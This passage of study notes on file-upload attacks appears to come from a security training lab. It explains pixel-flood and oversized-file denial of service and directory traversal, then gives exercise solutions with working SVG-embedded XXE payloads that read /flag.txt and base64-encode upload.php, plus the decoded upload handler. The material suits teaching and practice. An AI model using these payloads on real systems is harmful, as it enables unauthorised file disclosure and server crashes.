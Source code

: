 Another possible DoS attack is a **Pixel Flood** attack with some image files that utilize image compression, like JPG or PNG. We can create any JPG image file with any image size (e.g. 500x500), and then manually modify its compression data to say it has a size of (0xffff x 0xffff), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.

In addition to these attacks, we may try a few other methods to cause a DoS on the back-end server. One way is uploading an overly large file, as some upload forms may not limit the upload file size or check for it before uploading it, which may fill up the server's hard drive and cause it to crash or slow down considerably.

If the upload function is vulnerable to directory traversal, we may also attempt uploading files to a different directory (e.g. `../../../etc/passwd`), which may also cause the server to crash. Try to search for other examples of DOS attacks through a vulnerable file upload functionality.

### Exercise

Exercise 1: The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

Solution: it is a little tricky, because it is easy to bypass extension checks, but it is hard to run the XXE payload. Indeed, the solution is to upload a file or by using Burp Repeater by injecting a file like the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
NOTE: the file will be stored in `images/` folder but **the XXE will be not executed by accessing directly to the .svg file by direct link, but the XXE will be executed in the main page of the web site when the overview of the image is shown**. Indeed, it could be partially or not visible, and after the upload, you need to come back to the main page and check the page source for the result.

Exercise 2: Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

Solution: like above but the XXE injection will be:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
We will get a string in Base64. Its decoded text will be:
```php
<?php
$target_dir = "./images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!preg_match('/^.*\.svg$/', $fileName)) {
    echo "Only SVG images are allowed";
    die();
}

foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/svg+xml'))) {
        echo "Only SVG images are allowed";
        die();
    }
}

if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
```